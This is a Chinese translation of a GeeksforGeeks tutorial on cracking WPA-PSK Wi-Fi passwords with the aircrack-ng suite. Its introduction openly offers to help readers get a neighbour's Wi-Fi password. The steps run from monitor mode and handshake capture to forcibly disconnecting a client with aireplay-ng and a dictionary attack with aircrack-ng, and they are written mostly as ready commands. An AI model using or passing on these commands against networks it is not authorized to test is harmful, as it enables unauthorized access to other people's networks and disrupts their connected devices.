







# 无线渗透测试基础

> 原文: [https://www.geeksforgeeks.org/wireless-pentest-basic/](https://www.geeksforgeeks.org/wireless-pentest-basic/)

## 无线渗透测试
许多人想使用Wi-Fi，其中大多数人试图破解Wi-Fi并在未经邻居同意的情况下获取密码，但他们未能找到密码。因此，在本教程中，我将帮助您找到邻居的Wi-Fi密码。我相信这将是一个令人兴奋的教程，所有人在了解后都会喜欢。

## 无线网卡
在这种情况下，如果您使用Kali Linux作为VM VirtualBox中的虚拟机，可以使用外置无线适配器。

## WPA PSK 漏洞利用
这里我们将逐步讨论WPA PSK漏洞利用，如下所示。

### 步骤-1
检查无线网卡。



### 步骤-2
运行`airmon-ng`检查并清除可能干扰操作的进程。



### 步骤-3
将网络适配器置于监控模式。



### 步骤-4
现在，检查可用的无线网络。

**命令：**

```
airodump-ng wlan0mon
```

**输出：**



### 步骤-5
运行下面的命令捕获流量。工作站和数据传输列表如下。

```
root@kali:~# airodump-ng -c 2 --bssid 50:D4:F7:3C:3A:76 -w capturedfile wlan0mon
```



### 步骤-6
运行此命令断开客户端与网络的连接，并强制其重新连接。

```
root@kali:~# aireplay-ng -0 10 -a 50:D4:F7:3C:3A:76 -c 08:D8:33:F2:3B:50 wlan0mon
```



### 步骤-7
现在应该有一个捕获文件了。目录中的`.cap`文件。

### 步骤-8
运行下面的命令从文件中提取密码。

```
root@kali:~# aircrack-ng -w mywordlist.txt -b 50:D4:F7:3C:3A:76 capturedfile-02.cap
```

